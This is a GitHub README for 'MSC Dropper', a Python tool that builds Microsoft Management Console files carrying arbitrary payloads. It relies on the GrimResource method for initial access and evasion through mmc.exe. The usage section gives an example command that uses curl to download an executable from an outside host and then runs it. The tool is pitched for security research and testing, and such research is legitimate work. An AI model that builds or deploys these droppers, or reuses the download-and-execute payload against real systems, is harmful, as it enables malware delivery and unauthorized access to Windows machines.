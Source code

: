 [![Zero Detection Logo](https://github.com/ZERODETECTION/H9_Stage0/blob/main/logo_sm.png)](https://www.zerodetection.net/)


# MSC Dropper Tool

MSC Dropper is a Python script designed to automate the creation of MSC (Microsoft Management Console) files with customizable payloads for arbitrary execution. This tool leverages a method discovered by Samir (@SBousseaden) from Elastic Security Labs, termed #GrimResource, which facilitates initial access and evasion through `mmc.exe`.

## Overview

The script allows users to generate MSC files that can execute arbitrary commands or scripts within the Microsoft Management Console environment. This capability is particularly useful for security research and testing environments.

## Features

- **Automated MSC File Generation**: Create MSC files with specified commands or scripts embedded.
- **Payload Customization**: Customize the payload to execute any command or script that `mmc.exe` can invoke.
- **Command-Line Interface**: Simple command-line interface for quick generation of MSC files.

## Installation

Clone the repository:

   ```bash
   git clone https://github.com/ZERODETECTION/MSC_Dropper.git
   ```

## Usage

### Generating an MSC File

To generate an MSC file with a specific command or script:

```bash
python msc_dropper.py template1.msc out.msc "cmd /c curl -O http://wslab.de/tools/messagebox.exe && messagebox.exe"
```

Replace `"cmd /c curl -O http://wslab.de/tools/messagebox.exe && messagebox.exe"` with the command or script you want to execute. Ensure that the command is formatted correctly to work within the Windows environment and `mmc.exe`.

### Customizing Payloads

You can customize the payload directly within the `template1.msc` file or modify the script to automate more complex payload generation.

## Contributing

Contributions are welcome! Please fork the repository and submit pull requests.

## Credits

- Samir (@SBousseaden) from Elastic Security Labs for discovering the initial access and evasion method involving `mmc.exe`.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
